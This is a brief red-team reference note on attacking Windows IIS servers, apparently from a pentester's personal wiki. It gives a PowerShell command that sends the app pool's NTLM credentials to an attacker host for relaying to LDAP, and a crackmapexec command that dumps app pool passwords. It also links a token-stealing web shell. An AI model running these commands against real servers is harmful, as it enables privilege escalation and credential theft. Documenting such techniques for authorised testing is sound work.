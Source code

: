 ```yaml
---
title: IIS
---
```


Escalate from application pool to system by triggering NTLM authentication over HTTP and [[notes/ad/ntlm-relay-to-ldap|relaying to LDAP]] ([source](https://twitter.com/M4yFly/status/1745581076846690811)).

~~~ ps1
iwr http://attackerpc.corp.local -UseDefaultCredentials
~~~

[[notes/mitre-attack/credential-access|Access Credentials]] of the IIS application pool account as [[notes/windows/credential-access-admin|local admin]] ([source](https://twitter.com/mpgn_x64/status/1693249217609740470)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb web01.corp.local -u jdoeadm -p 'passw0rd' -M iis
    ~~~

    If the module can not dump the password of an account it is probably a gMSA.

Untested tools:

- [Handly](https://github.com/blackarrowsec/Handly/tree/main/IIS), ASP.NET web shell that steals and impersonates tokens held by IIS
- [AppPoolCredDecrypt](https://github.com/xpn/RandomTSScripts/tree/master/apppoolcreddecrypt), dump IIS app pool accounts
